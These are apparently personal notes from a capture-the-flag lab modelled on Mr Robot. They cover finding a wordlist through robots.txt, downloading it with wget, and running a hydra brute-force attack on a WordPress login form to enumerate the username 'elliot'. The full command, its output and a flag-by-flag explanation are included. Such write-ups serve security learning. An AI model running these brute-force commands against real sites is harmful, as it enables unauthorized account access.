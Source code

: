 # Navigate to ip address
- navigate to http://ip.ip.ip.ip
- reveals a mr robot style command line interface

- navigate to http://ip.ip.ip.ip/robots.txt
	- fsocity.dic - note misspelling
	- key-1-of-3.txt
![[Pasted image 20240302135447.png]]

- navigating to http://ip.ip.ip.ip/fsocity.dic and browser spins and connection times out

# wget for giant wordlist
- wget to pull down fsocity.dic
- fsocity.dic seems to be a giant wordlist
```bash
┌──(kali㉿kali)-[~]
└─$ wget http://10.10.74.16/fsocity.dic
--2024-03-02 13:48:56--  http://10.10.74.16/fsocity.dic
Connecting to 10.10.74.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
```

# Hydra to brute force username and password
- Use fsocity.dic word list with hydra to attack the poorly designed wordpress page and
	- 1. Brute force the username 
	- 2. Brute force the password

- using word press login page error to craft hydra command
![[Pasted image 20240302160418.png]]
- username - revealed elliot
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -L fsocity.dic -p test 10.10.0.129 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username" 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-02 15:02:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.0.129:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username
[80][http-post-form] host: 10.10.0.129   login: Elliot   password: test
[STATUS] 804.00 tries/min, 804 tries in 00:01h, 857431 to do in 17:47h, 16 active
[80][http-post-form] host: 10.10.0.129   login: elliot   password: test
[STATUS] 807.67 tries/min, 2423 tries in 00:03h, 855812 to do in 17:40h, 16 active
[STATUS] 809.00 tries/min, 5663 tries in 00:07h, 852572 to do in 17:34h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
- - `hydra`: This is the main command to invoke Hydra.
- -L fsocity.dic`: This option specifies a list of usernames to be tested during the attack, taken from the `fsocity.dic` file. `-L` is used when you have a list of usernames.
- `-p test`: This specifies the password to use for each username being tested. `-p` is used for a single password; in this case, "test" is used for all usernames.
- `http://10.10.0.129`: This is the target's URL or IP address.
- `http-post-form`: This tells Hydra to use the HTTP POST method for the form-based login.
- `"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"`: This is the path to the login form and the POST request's parameters.